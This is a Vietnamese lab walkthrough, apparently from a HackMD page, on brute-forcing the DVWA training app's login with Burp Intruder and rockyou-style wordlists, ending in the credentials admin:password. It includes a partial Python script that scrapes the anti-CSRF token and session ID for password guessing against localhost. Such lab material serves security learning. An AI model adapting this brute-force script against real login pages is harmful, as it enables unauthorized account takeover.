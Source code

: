 ![image](https://hackmd.io/_uploads/HJL9hOWlA.png)

- bỏ qua cách khai thác SQL injection mình sẽ brute force password của các user
- mình đưa request vào intruder để brute force với chế độ cluster bom

![image](https://hackmd.io/_uploads/B1yKFMfg0.png)

- với payload để brute force các bạn có thể tìm từ các nguồn như rockyou

![image](https://hackmd.io/_uploads/SkYcqzGlR.png)

![image](https://hackmd.io/_uploads/ryB7cGGlA.png)

- mình lọc kết quả trả về

![image](https://hackmd.io/_uploads/S1Ww9fGgA.png)

- và mình được tài khoản là **admin:password**

![image](https://hackmd.io/_uploads/HkNyjzzxC.png)

các bạn có thể dungf đoạn code python sau để brute force

```python
#!/usr/bin/python
import requests
import sys
import re
from bs4 import BeautifulSoup

# Variables
target = 'http://localhost'
sec_level = 'low'
dvwa_user = 'admin'
dvwa_pass = 'password'
user_list = 'unix_users.txt'
pass_list = 'unix_passwords.txt'


# Value to look for in response header (Whitelisting)
success = 'Welcome to the password protected area'


# Get the anti-CSRF token
def csrf_token():
    try:
        # Make the request to the URL
        print("\n[i] URL: %s/login.php" % target)
        r = requests.get("{0}/login.php".format(target), allow_redirects=False)

    except:
        # Feedback for the user (there was an error) & Stop execution of our request
        print("\n[!] csrf_token: Failed to connect (URL: %s/login.php).\n[i] Quitting." % (target))
        sys.exit(-1)

    # Extract anti-CSRF token
    soup = BeautifulSoup(r.text)
    user_token = soup("input", {"name": "user_token"})[0]["value"]
    print("[i] user_token: %s" % user_token)

    # Extract session information
    session_id = re.match("PHPSESSID=(.*?);", r.headers["set-cookie"])
    session_id = session_id.group(1)
    print("[i] session_id: %s" % session_id)

```